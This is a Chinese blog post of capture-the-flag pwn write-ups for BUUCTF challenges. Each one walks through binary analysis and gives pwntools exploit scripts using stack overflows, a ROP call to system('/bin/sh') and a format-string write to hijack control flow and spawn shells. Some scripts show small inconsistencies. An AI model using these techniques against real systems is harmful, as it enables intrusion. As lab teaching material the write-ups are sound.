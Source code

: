 title: Pwn-Write up
author: John Doe
tags: []
categories: []
date: 2023-07-06 17:35:00
---
# test_your_nc1

直接nc题目给的网站和端口

![upload successful](/images/pasted-660.png)

# rip1

![upload successful](/images/pasted-661.png)
首先checksec题目给的附件，然后使用IDA进行静态分析

![upload successful](/images/pasted-663.png)
发现两个函数

![upload successful](/images/pasted-664.png)
f5发现危险函数gets，可能存在栈溢出漏洞

![upload successful](/images/pasted-665.png)
再看一下fun函数，发现为可以执行shell的函数

<li>接下来思路就清晰了，我们需要利用gets函数获取一个长字符串覆盖rip来控制程序流到fun()函数
  
{% codeblock lang:PY %}
from pwn import *

#p = process('./pwn1')
p = remote('node4.buuoj.cn', 29466)

payload = b'a' * 15 + p64(0x401186) 
#gdb.attach(p)

p.sendline(payload)

p.interactive()
{% endcodeblock %}

# warmup_csaw_2016

![upload successful](/images/pasted-666.png)
首先checksec软件，发现没有保护，64位，进入IDA反编译查看

shift+f12查看字符串

![upload successful](/images/pasted-667.png)
发现`cat flag.txt`

![upload successful](/images/pasted-669.png)
找到该函数

![upload successful](/images/pasted-670.png)
地址为0x40060D，然后对main进行分析

![upload successful](/images/pasted-671.png)
长度为0x40，构造exp，64位程序都要+8

```py
from pwn import *
#p=process("./warmup_csaw_2016")
p=remote("node4.buuoj.cn",26857)

payload=b'a' * (0x40 + 8) + p64(0x40060D)
p.sendline(payload)
p.interactive()
```
![upload successful](/images/pasted-672.png)

# ciscn_2019_n_1

首先checksec

![upload successful](/images/pasted-673.png)
进入IDA分析

![upload successful](/images/pasted-674.png)
main里调用了一个func()，去看一下func()

![upload successful](/images/pasted-675.png)
func()对v2做了一个比较`if ( v2 == 11.28125 )`就执行`cat /flag`

但是这里用到了一个gets()，故可能存在栈溢出漏洞，且v1为0x30

![upload successful](/images/pasted-676.png)
找到执行`cat /flag`的地址为0x4006BE，构造exp
```py
from pwn import *
#p=process("./ciscn_2019_n_1")
p=remote("node4.buuoj.cn",25436)

payload=b'a' * (0x30 + 8) + p64(0x4006BE)
p.sendline(payload)
p.interactive()
```

![upload successful](/images/pasted-677.png)

# pwn1_sctf_2016

![upload successful](/images/pasted-678.png)
首先checksec程序

![upload successful](/images/pasted-679.png)
进入IDA查看main发现一个vuln()

![upload successful](/images/pasted-680.png)
查看栈结构发现s的长度为0x3c，即60个字节，而输入被限制在32个字节内，但是每个I可以被替换成you，所以输入60÷3=20个I就能让栈溢出，然后加上get_flag()函数的起始地址，即可执行`cat flag.txt`

![upload successful](/images/pasted-681.png)
找到地址，构造EXP，32位都要+4
```py
from pwn import *
#p=process("./pwn1_sctf_2016")
p=remote("node4.buuoj.cn",29407)

payload=b'I' * 20 + b'a' * 4 + p64(0x8048F13)
p.sendline(payload)
p.interactive()
```
![upload successful](/images/pasted-682.png)

# jarvisoj_level0

首先checksec

![upload successful](/images/pasted-683.png)
进入IDA分析

![upload successful](/images/pasted-684.png)
通过main函数可以推断出该程序大致功能，打印一个hello wordl，使用shift+f12查找字符串

![upload successful](/images/pasted-685.png)
发现/bin/sh和system，双击跟进，ctrl+x找到调用 /bin/sh 的函数，找到了程序里的后门

![upload successful](/images/pasted-687.png)
后门地址0x400596

![upload successful](/images/pasted-688.png)
根据这里可以推出程序存在栈溢出，ida给我们分析出来buf的大小是0x80，这边read读入0x200，构造payload
```
from pwn import *
#p=process("./level0")
p=remote("node4.buuoj.cn",29784)

payload=b'a' * (0x80 + 8) + p64(0x400596)
p.sendline(payload)
p.interactive()
```

![upload successful](/images/pasted-689.png)

# [第五空间2019 决赛]PWN5 1


![upload successful](/images/pasted-690.png)
程序开了canary，IDA反编译一下

![upload successful](/images/pasted-691.png)
猜测是格式化字符串漏洞，检测一下偏移

![upload successful](/images/pasted-692.png)
这里建议使用`%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p`这种方式测偏移，如上图较为清楚

![upload successful](/images/pasted-693.png)
可以看到输出来是第十位

![upload successful](/images/pasted-694.png)
通过pwndbg定位到aaaa的输入地址，可以通过格式化字符串把之前的随机数写成跟我们输入的 password 一样的都是 0x1

```py
from pwn import *
#p=process("./pwn")
p=remote("node4.buuoj.cn",26392)

payload = fmtstr_payload(10,{0x804C044:0x1}) #使用 fmtstr_payload 函数生成一个格式化字符串攻击载荷。fmtstr_payload 函数接受两个参数，第一个参数是格式化字符串的偏移量（offset），第二个参数是一个字典，其中键是目标地址，值是你想要写入的值。在这个例子中，攻击载荷将在偏移量 10 处将地址 0x804C044 的值修改为 0x1。
p.recvuntil('name:')
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
```
![upload successful](/images/pasted-695.png)

# jarvisoj_level2 1

![upload successful](/images/pasted-747.png)
32位，程序只开了NX，栈上不可执行
进入IDA，对main函数反编译

![upload successful](/images/pasted-748.png)
跟一下这个function

![upload successful](/images/pasted-749.png)
buf数组只给了0x88的大小，但是最多可以读入0x100个字节的数据，所以可以构造ROP
shift+f12找到/bin/sh进去

![upload successful](/images/pasted-750.png)
地址为0x0804A024
找到function的返回地址

![upload successful](/images/pasted-751.png)
故exp：
```
from pwn import *
b=process("./level2")
#b=remote

payload = b'a' * 0x88 + b'a' * 4 + p32(0x08048320) + p32(0x08048320) + p32(0x0804a024)

b.send(payload)
b.interactive()
```

